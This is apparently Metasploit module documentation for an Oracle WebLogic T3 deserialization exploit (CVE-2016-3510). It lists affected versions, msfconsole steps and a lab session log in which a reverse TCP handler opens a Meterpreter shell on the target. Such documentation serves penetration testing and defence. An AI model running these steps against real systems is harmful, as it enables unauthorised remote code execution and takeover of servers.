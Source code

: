 ## Description
 Oracle Weblogic Server v10.3.6.0, v12.1.3.0, and v12.2.1.0 are vulnerable to a deserialization vulnerability (CVE 2016-3510), which can be used to execute code on vulnerable systems. An unauthenticated user with network access via T3 could exploit the vulnerability. This module has been tested against Oracle Weblogic Server v10.3.6.0 and v12.1.3.0 running on Windows 7 x64 using JDK v7u80.

## Vulnerable Application
 Oracle Weblogic Server v10.3.6.0, v12.1.3.0, and v12.2.1.0.

## Verification Steps
 1. `./msfconsole -q`
 2. `use exploit/multi/misc/weblogic_deserialize_marshalledobject`
 3. `set rhosts <rhost>`
 4. `set rport <srvport>`
 5. `exploit`

## Scenarios
### Tested on Windows 7 x64 running Oracle Weblogic Server 10.3.6.0 and 12.1.3.0 on JDK v7u80
 ```
 msf exploit(multi/misc/weblogic_deserialize_marshalledobject) > set rhost 192.168.192.6
 rhost => 192.168.192.6
 msf exploit(multi/misc/weblogic_deserialize_marshalledobject) > set rport 7001
 rport => 7001
 msf exploit(multi/misc/weblogic_deserialize_marshalledobject) > exploit
 
 [*] Started reverse TCP handler on 192.168.192.136:4444 
 [*] 192.168.192.6:7001 - Sending handshake...
 [*] 192.168.192.6:7001 - Sending T3 request object...
 [*] 192.168.192.6:7001 - Sending client object payload...
 [*] Sending stage (179779 bytes) to 192.168.192.6
 [*] Meterpreter session 8 opened (192.168.192.136:4444 -> 192.168.192.6:49276) at 2018-12-14 11:44:30 -0800

 meterpreter > sysinfo
 Computer        : GIOTTO-HS-W7
 OS              : Windows 7 (Build 7600).
 Architecture    : x64
 System Language : en_US
 Domain          : WORKGROUP
 Logged On Users : 2
 Meterpreter     : x86/windows
 ```
